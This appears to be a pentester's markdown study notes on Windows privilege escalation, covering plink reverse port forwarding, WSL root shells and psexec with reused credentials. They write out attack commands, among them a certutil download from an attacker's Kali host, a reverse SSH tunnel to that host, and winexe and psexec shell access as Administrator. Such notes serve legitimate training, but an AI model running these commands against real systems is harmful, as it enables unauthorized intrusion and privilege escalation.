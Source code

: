 Download plink with the same version of your target

Send the file to the target:
```
# open a python server
# receive the file

certutil -urlcache -f http://<kali ip>/<file> <output name>
```

```
- modify the /etc/sshd_config
- set PermitRootLogin yes
- service ssh restart
- service ssh start
```

in Target:
```powershell
plink.exe -l <kali user> -pw <kali password> -R <port we want to forward>:127.0.0.1:<kali port to receive> <kali ip>
```

We should gain a kali root shell:
```
netstat -ano = to show if the port sent is open now
winexe -U Administrator%<password reuse> //127.0.0.1 "cmd.exe"
```

> hit enter a couple of times, if the shell gets stuck

- we should have root access in the windows machine
- if we want to improve the shell, we could send a netcat to the target and get the connection 


# Escalation Path: Windows Subsystem for Linux

Spawning a TTY Shell - https://netsec.ws/?p=337

Impacket Toolkit - https://github.com/SecureAuthCorp/impacket


## Overview
EoP - Windows Subsytem For Linux (WSL)

With root privileges WSL allows users to create a bind shell on any port (no elevation needed). 

Dont know the root password? No problem, just set the default user to root W/ **.exe --default-user root**.

Now Start your bind shell or reverse.

if u find user/password and the machine has smb

try psexec/smbexec/wmiexec:
```bash
psexec.py <user:'password'@target ip>
```
